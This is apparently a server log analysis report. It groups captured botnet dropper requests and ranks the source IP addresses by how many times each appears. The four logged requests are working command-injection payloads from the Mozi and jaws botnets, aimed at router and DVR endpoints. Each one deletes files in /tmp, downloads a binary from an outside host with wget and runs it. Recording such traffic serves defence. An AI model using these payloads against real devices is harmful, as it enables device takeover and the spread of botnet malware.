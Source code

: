 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                      |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.164.177.50  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.164.177.50:10867/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 117.209.43.155 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://117.209.43.155:45735/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                               |
| 136.144.33.12  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                             |
| 117.223.31.237 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                        |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   722 | 204.76.203.18   |
|   1 |                   232 | 45.148.10.34    |
|   2 |                   174 | 195.178.110.163 |
|   3 |                   157 | 45.148.10.90    |
|   4 |                   119 | 45.148.10.35    |
|   5 |                    72 | 92.255.57.58    |
|   6 |                    70 | 154.81.156.7    |
|   7 |                    49 | 185.16.38.107   |
|   8 |                    49 | 78.153.140.224  |
|   9 |                    46 | 145.239.154.84  |
|  10 |                    45 | 121.141.64.200  |
|  11 |                    45 | 201.98.30.238   |
|  12 |                    45 | 35.195.46.0     |
|  13 |                    45 | 185.91.127.81   |
|  14 |                    45 | 211.107.237.13  |
|  15 |                    45 | 194.238.30.127  |
|  16 |                    43 | 45.148.10.235   |
|  17 |                    40 | 87.121.84.204   |
|  18 |                    39 | 178.211.139.120 |
|  19 |                    36 | 87.121.84.131   |
|  20 |                    36 | 95.214.53.106   |
|  21 |                    33 | 172.59.208.128  |
|  22 |                    32 | 93.174.93.12    |
|  23 |                    31 | 80.82.77.202    |
|  24 |                    30 | 172.56.47.150   |
|  25 |                    30 | 172.58.36.24    |
|  26 |                    29 | 172.59.48.176   |
|  27 |                    28 | 92.116.154.32   |